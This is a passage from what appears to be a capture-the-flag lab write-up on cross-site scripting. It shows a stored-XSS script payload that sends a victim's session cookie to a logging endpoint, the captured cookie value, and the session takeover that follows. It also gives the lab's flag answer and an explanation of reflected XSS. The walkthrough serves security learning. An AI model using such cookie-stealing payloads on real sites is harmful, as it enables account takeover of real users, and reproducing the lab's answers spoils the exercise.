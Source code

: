# Task 4: Take over Jack's account by stealing his cookie, what was his cookie value?

From the hint or from Burp's sitemap we can find /log and accessing the page we are given a message 

`Anything that makes a request to /log/:text will be logged. For example, /log/anything+can+go+here will get logged to this page.`

So let's try a script to steal jack's cookie using `/log`.

*Payload*: `<script>document.location='http://10.10.119.143//log/'+document.cookie</script>`

And refreshing http://$IP/logs we get

```
5/7/2021, 9:29:42 AM : connect.sid s%3Aat0YYHmITnfNSF0kM5Ne-ir1skTX3aEU.yj1%2FXoaxe7cCjUYmfgQpW3o5wP3O8Ae7YNHnHPJIasE
```

# Task 5: Post a comment as Jack.

Changing the value of the cookie in storage tab shows us we are in as jack. And after posting a comment we got the answer.

```
Successfully added a comment as Jack! Question answer: c00ki3_stealing_
```

# Reflected XSS

In a reflected cross-site scripting attack, the malicious payload is part of the victims request to the website. The website includes this payload in response back to the user. To summarise, an attacker needs to trick a victim into clicking a URL to execute their malicious payload.

This might seem harmless as it requires the victim to send a request containing an attackers payload, and a user wouldn't attack themselves. However, attackers could trick the user into clicking their crafted link that contains their payload via social-engineering them via email..

Reflected XSS is the most common type of XSS attack.

## Challenge 2

# Target URL: http://10.10.119.143/reflected?keyword=Term%20from%20URL...

# Task 1: Craft a reflected XSS payload that will cause a popup saying "Hello".

We can observe that whatever we search for is reflected in the source code as `You searched for <text>` and in the url.
